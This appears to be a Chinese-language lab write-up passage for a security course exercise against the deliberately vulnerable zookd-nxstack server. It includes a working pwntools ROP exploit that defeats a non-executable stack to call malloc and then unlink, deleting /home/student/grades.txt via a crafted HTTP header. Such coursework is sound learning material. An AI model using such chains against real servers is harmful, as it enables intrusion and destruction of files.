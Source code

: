 但是我看了一下大佬的exp，（假设未知value和retaddr），用malloc分配一段地址，靠rax加偏移量去内容的指令完成写入字符串，然后把rax放到rdi里，调用unlink。

但是在我的libc里，向chunk写入字符串倒是能找到gadget，但是没法把rax挪到rdi里。找不到以rax为src，以任何一个寄存器（非取内容）为dst的`mov`指令，也找不到形如```pop_rax_push_xxx_ret```的东西。寄了（

~~我不李姐为什么同一个vmdk创建的虚拟机libc内容不一样？真不懂😭~~

对不起，看到lab2才发现他没用给的虚拟机

虽然但是，还是摆在这学习一下吧

```python
def get_malicious_request():
    e = ELF('./zookd-nxstack')
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    libc_base = 0x1555552e8000
    
    pop_rdi_ret = libc_base + libc.search(asm('pop rdi ; ret')).__next__()
    pop_rdx_pop_rbx_ret = libc_base + 0x11f497 # 'pop rdx ; ret' by search can't be used
    pop_rcx_ret = libc_base + libc.search(asm('pop rcx ; ret')).__next__()
    ret = pop_rdi_ret + 1
    copy_gadget = libc_base + 0xc5163 # mov qword ptr [rax + rdx - 8], rdi ; ret
    push_rax_pop_rbx_ret = libc_base + 0x1750eb
    mov_rdi_rbx_call_rcx = libc_base + 0x15e9d8
   
    func_malloc = libc_base + libc.sym['malloc']
    func_unlink = libc_base + libc.sym['unlink']
    # ret for slide
    payload  = 512 * p64(ret)
    # alloc a chunk to store the string
    payload += p64(pop_rdi_ret) + p64(0x100) + p64(func_malloc)
    # copy string to chunk
    payload += p64(pop_rdx_pop_rbx_ret) + p64(0x8) + b'arttnba3'
    payload += p64(pop_rdi_ret) + p64(0x74732f656d6f682f) + p64(copy_gadget)
    payload += p64(pop_rdx_pop_rbx_ret) + p64(0x10) + b'arttnba3'
    payload += p64(pop_rdi_ret) + p64(0x72672f746e656475) + p64(copy_gadget)
    payload += p64(pop_rdx_pop_rbx_ret) + p64(0x18) + b'arttnba3'
    payload += p64(pop_rdi_ret) + p64(0x7478742e73656461) + p64(copy_gadget)
    payload += p64(pop_rdx_pop_rbx_ret) + p64(0x20) + b'arttnba3'
    payload += p64(pop_rdi_ret) + p64(0) + p64(copy_gadget)
    # call unlink(chunk)
    payload += p64(pop_rcx_ret) + p64(func_unlink)
    payload += p64(push_rax_pop_rbx_ret)
    payload += p64(mov_rdi_rbx_call_rcx)
    # url encoding
    payload = payload.replace(b'\x00', b'%00')
    req  = b"GET / HTTP/1.0\r\n"
    req += b"arttnba3: " + payload + b"\r\n"
    req += b"\r\n"
    return req
```



#### lab1 exercise6
